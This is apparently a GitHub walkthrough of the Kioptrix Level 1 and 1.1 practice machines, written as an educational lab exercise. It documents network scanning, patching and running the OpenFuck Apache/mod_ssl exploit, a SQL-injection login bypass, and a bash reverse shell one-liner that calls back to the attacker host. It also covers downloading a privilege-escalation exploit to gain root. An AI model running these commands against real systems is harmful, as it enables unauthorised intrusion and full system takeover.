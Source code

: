 # kioptrix-full-walkthrough
<h1>Kioptrix Level 1</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.
>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199799872-1a04ded4-b40c-4cae-b085-f970aee67bd2.png)

Note: Found out by the mac address.

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199800031-894a8f69-a2f0-4585-8d1f-84a3fceba8c4.png)
![image](https://user-images.githubusercontent.com/31168741/199800056-715a15f8-f636-40f8-801f-0a477a7fef28.png)
nmap result as found above!

Step 4:
Running some other tools to enumerate as much information as possible from the machine.

>enum4linux <i><b>[machine-ip]</b></i>

>dirb http://<i><b>[machine-ip]</b></i>

Step 5:
Now we browse for available exploits.

As shown in the output, the target system is using a very outdated Apache web server version 1.3.20. We Google for “apache 1.3.20 vulnerability”.

Search for the exploit via searchsploit
> searchsploit OpenFuck

![image](https://user-images.githubusercontent.com/31168741/199801410-e466b70b-3dce-477a-8ceb-eea0ec90c4aa.png)

<h2>Modify the exploit code:</h2>

Simply make a copy of the <b>764.c</b> exploit and put it somewhere to check it out and make changes to it (because the ‘off-the-shell’ code over there is pretty outdated)

> cp /usr/share/exploitdb/exploits/unix/remote/764.c OpenFuck.c

Here, we need to make some modification to the code before compiling it. Can be done using any text editor such as nano or vim.

> vim OpenFuck.c

Below are the list of changes which are needed to be made to the <b>OpenFuck.c</b> code,

<b>Include the openssl rc4 and md5 libraries:</b>

>#include <openssl/rc4.h>

>#include <openssl/md5.h>

Modify the <b>‘wget’</b> method in the exploit itself because the url does not exist anymore. we need to update it to become the new URL to download the file.
Search for <b>‘wget’</b> in the exploit, and then replace the URL to <b>http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c</b>

<b>Install Libraries for compiling the modified exploit code:</b>

> apt-get install libssl-dev

> gcc -o OpenFuck OpenFuck.c -lcrypto

Running the exploit,

>./OpenFuck 0x6b <i><b>[machine-ip]</b></i> 443 -c 40

![image](https://user-images.githubusercontent.com/31168741/199802750-a1c211c4-c945-4549-bc19-98446b53831b.png)

It worked!

<h1>Kioptrix Level 1.1(2)</h1>

Step 1:
Downloading machine and setting up.

Step 2:
Run netdiscover to learn the machine IP.

>sudo netdiscover -i eth0

![image](https://user-images.githubusercontent.com/31168741/199806037-13dfd40c-2bd7-4bd4-b3bf-6792315bb16b.png)

Step 3:
Run nmap scan on the machine IP that we found.

>sudo nmap -sS -A -p- <i><b>[machine-ip]</b></i> -T4

![image](https://user-images.githubusercontent.com/31168741/199806144-1718d44e-5564-429a-8f5e-58d748009ca2.png)

Step 4:
Let’s take a deeper dive by inspecting what lies in the open port i.e. <i><b>[machine-ip]</b></i>:80

<b>N.B.</b> I reinstalled the machine, ts why the ip changed.

![image](https://user-images.githubusercontent.com/31168741/199806234-c60c90b3-8521-469f-99b3-da5d9e2a0486.png)

Whoa! A login form. From the nmap scan, we notice the web application is using unauthorized mysql. This is vulnerable to SQLi. It turns out the authentication can be bypassed by using the following payload in the username field:

![image](https://user-images.githubusercontent.com/31168741/199806285-5834b923-b39b-4cb1-b2cf-9411302889bf.png)

But we need a shell to operate more flexibly.

![image](https://user-images.githubusercontent.com/31168741/199806351-02b40ddb-6bdf-40a1-a4ee-c683b919f39d.png)

![image](https://user-images.githubusercontent.com/31168741/199806383-709bfcfa-928e-49b6-b1fc-032eacd73d21.png)

So, we setup a listener and using a BASH reverse shell to connect to the listener; putting the script below inside the console that we just took privilege:

>bash -i >& /dev/tcp/<i><b>[host-ip]</b></i>/1234 0>&1 (host machine)

![image](https://user-images.githubusercontent.com/31168741/199806457-c234670e-b98c-4e34-a371-d713d3d11328.png)

We are into the shell! We look around for more info.

![image](https://user-images.githubusercontent.com/31168741/199806517-f0a4fc1d-17db-4f9d-b62d-46e0f8d2f0a6.png)

![image](https://user-images.githubusercontent.com/31168741/199806565-fba7cafa-d421-4b98-9f6f-fffa2ffb736a.png)

Step 5:
Looking out for available exploits regarding the version privilege escalation.

![image](https://user-images.githubusercontent.com/31168741/199806647-16bb2db6-10e1-43ec-8ed1-1d9c67b52842.png)

We find one and download the exploit.

![image](https://user-images.githubusercontent.com/31168741/199806720-0134067b-2762-48ca-b830-ee4d28153eb8.png)

Step 6:
Running a python server in the host machine so that we can copy the exploit to the target machine.

![image](https://user-images.githubusercontent.com/31168741/199806805-4fb64c04-ee75-4a27-a721-e9ef97397e13.png)

Transferring the exploit to the target machine using the Python web server and wget:

![image](https://user-images.githubusercontent.com/31168741/199806868-7bcfbb84-a83c-41ad-9573-34c9027566ce.png)

It’s copied. (We are downloading basically!)

Step 7:
Compiling the exploit using GCC, allocating execute permissions to it and executing it:

![image](https://user-images.githubusercontent.com/31168741/199806960-7773eaf1-1689-47b7-859b-95f29d6f672e.png)

Now we are in the root!

<h1>Kioptrix Level 1.2(3)</h1>

